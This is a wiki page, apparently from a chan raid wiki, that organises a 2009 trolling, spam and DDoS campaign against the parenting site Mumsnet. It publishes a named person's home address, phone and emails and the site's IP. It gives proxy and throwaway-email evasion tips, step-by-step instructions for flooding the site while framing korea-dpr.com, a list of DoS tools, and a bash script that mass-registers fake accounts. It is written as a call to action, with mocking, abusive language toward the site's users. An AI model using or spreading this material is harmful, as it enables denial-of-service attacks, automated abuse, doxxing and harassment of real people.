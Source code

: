 ==Site Information==

<center><strong><big><big><big>Mumsnet.com suffered a lot of attacks recently.<br />
The source of the attacks are believed to have come from [http://anonym.to/http://www.korea-dpr.com Korea-DPR]</big></big></big></strong></center>

[http://anonym.to/http://mumsnet.com Website]<br />
[http://anonym.to/http://mumsnet.com/Talk/am_i_being_unreasonable Talk board]<br />
IP: 213.161.73.140<br />
<br />
Gold, Jessica  <br />
Unit 6<br />
Deane House Studios<br />
Greenwood Place<br />
London, England NW5 1LB<br />
GB<br />
+44.7958669508<br />
<br />
jessica@mumsnet.com<br />
jessica.gold@guardian.co.uk<br />

==Background==
Mumsnet is a parenting site, supposedly the "number one" parenting site on the interbuttz. It's mainly full of - as the name would suggest - mums, but there are a few fathers on there as well. Trolling the said website began around early May with a few anons getting lulz out of winding up the doting helicopter parents.
The site has plenty of things on it, but only the "Talk" boards offer any way to wind people up. There are a fair few talk boards on the site but the main one for trolling has been "Am I Being Unreasonable?" or "AIBU" as it's known in its abbreviated form. Images unfortunately cannot be posted and the site DOES require email registration. Use [http://anonym.to/http://10minutemail.com 10minutemail] for quick signups. Use TOR if possible (hidemyass or another php/cgi proxy will do but TOR is better) as the mods like to use the banhammer on IPs if things get out of hand.
==Trolling and Raids==
Everything was going reasonably well until a few of the mums got tired of the trolling and started abusing anons. Said anons replied with more lulzy sarcastic comments (no abuse), yet the mums replied with abuse. The mums reported all anons posts and anon ended up being instab& for abuse, despite not abusing anyone.
===Reformation and Re-trolling===
After the banhammer had been used by the mods to rid mumsnet of the plague of anon, the mums rejoiced in their victory over the internet. Anon regrouped in [[/b/]] and launched a counter-offensive with [[copypasta]] spam on the various talk boards (focusing mainly on the "Am I Being Unreasonable" board). The banhammer was again used against anon (including IP bans) but anon was prepared for this, proxies were changed and the pre-prepared new accounts were logged in and spamming resumed. By this time the mums had reached apocalyptic rage levels and started to try and abuse anon, which was a horrific fail. Examples of this hueg fail are as follows:
<blockquote>
By Doodle2U on Sun 17-May-09 21:04:04<br />
Is that a threat CP?<br />
Do fuck off dear - and I'll take my chances thanks.
</blockquote>
<blockquote>
By tattifer on Sun 17-May-09 22:00:20<br />
Anonymous is boring<br />
Anonymous is brainless<br />
anonymous is probably a sad spotty nineteen year old who hasn't got a girlfriend and still wanks with a sock on his hand and then feels dirty and ashamed about it
</blockquote>
<blockquote>
By LissyGlitter on Sun 17-May-09 21:22:06<br />
It's just some knobs from a site called 4chan. They can get quite nasty and personal, but it is best to just ignore them.
</blockquote>

<br>
An example of epic trolling can be found here:  [http://anonym.to/http://www.mumsnet.com/Talk/am_i_being_unreasonable/756690-To-be-annoyed-with-childminder-for-giving-DS-ready-made].  Snippet, you make Anon proud!

===/b/lackup===
After the mums said these things they were dished out a warning by anon. They were asked simply to apologise for the unnecessary abuse and things would return to normal (naturally this would never have really happened). The mums declined to apologise and instead piled on the oh so hurtful words. So anon went back to /b/ and called for /b/lackup. Lulz ensued from this and mumsnet was again reduced to a sea of copypasta and general crapflooding.


Then there was a failing DDoS attack wich took the site down for 20 mins -_-

==New Raid==
[[File:Gadzooks!.jpg|thumb|right|screenshot]][[File:Winrar.png|thumb|right|Moar win]]
Its Over.
<span style="text-decoration:line-through;"><br />
<br />
*Information
**[http://anonym.to/http://anonymous.pastebay.com/16474 Pastebay Infoz]
**[http://anonym.to/http://timeanddate.com/counters/customcounter.html?month=may&day=19&year=2009&hour=23&min=0&sec=0&p0=0 Countdown]
*Tools
**[[SYNflooder.pl]]
**[[Denial_of_Service_Methods#DoS | DoS]]
**[[Hping]]
**[[Longcat_Flooder | Longcat Flooder]]
**[[BWRaeper.NET]]
*Communication
**[irc://irc.terogen.com/invasion terogen]
**That's: irc.terogen.com #invasion (for people who don't have an IRC client that uses the irc:// prefix)
===Method===
Trolling has been successful, so the leg/i/on is now moving to plan B.  Many lulz were had, and the whores at mumsnet released a public apology... too little too late.  They also don't appear to know why they're apologizing.<br>
Plan B = DDoS
* Use EFC (LOIC sucks dick)
* We are blaming this on korea-dpr.com, so include some reference to korea-dpr.com in your TCP/UDP message.  The default one we're going to use is "korea-dpr.com!!!"
* Refer to the IRC channel for timing details.  Don't be a newfag and do this on your own.
<br>
Newfag's tl;dr guide to EFC:
* Download from [http://anonym.to/http://vgchan.net/files/src/warriors_battle_cannon.zip]
* Extract and install
* Set URL to http://anonym.to/http://mumsnet.com/Talk/am_i_being_unreasonable
* Click the "lock target" button
* Set threads to over9000 (that's 9001 for you newfags)
* Set method to UDP
* Click "Begin Attack" button

You can use the following BASH script to register bullshit accounts on mumsnet.
<pre>#!/bin/bash
#socat TCP4-LISTEN:8080,fork SOCKS4:127.0.0.1:213.161.73.140:80,socksport=9050
while [ 0 -eq 0 ] ; do
	randVal=`md5 -q -s ${HOSTNAME}_${RANDOM} | cut -b 1,3,5,7,9,11,13,15,17,19,21,23,25,27,29,31`
	passWord="PASSWORD"
	curl 127.0.0.1:8080/JoinMumsnet.html -d vanilla=vanilla -d email=${randVal}@mt2009.com -d name=anonymous${randVal} -d password=$passWord -d password2=$passWord -d nickname="anonymous${randVal}" -d postcode=12345 -d findable=1 -d yob=1970 -d howheard=5 -d pregnant=Y -d numkids=9 -d submit=Register >> /dev/null
	echo ${randVal}@mt2009.com
	if [ ! -e ${HOME}/logins.txt ] ; then touch ${HOME}/logins.txt ; fi
	echo ${randVal}@mt2009.com >> ${HOME}/logins.txt
done</pre>
</span>

==Participants==
All *chans are invited to join in, 888chan's /i/ already has a topic about this and 4ailchan /b/ has already been involved in the early stages. Spread the word around and get moar manpower.

==Korean DoS==
Korea did it:<br />
[[File:Korea1.png|thumb|left|screenshot]]
[[File:Korea2.png|thumb|left|screenshot]]
[[File:Korea3.png|thumb|left|screenshot]]

==Current Outcome==

They Got Raped.


[[Category:Raids]]
{{DEFAULTSORT:Operation Feminazi Milf}}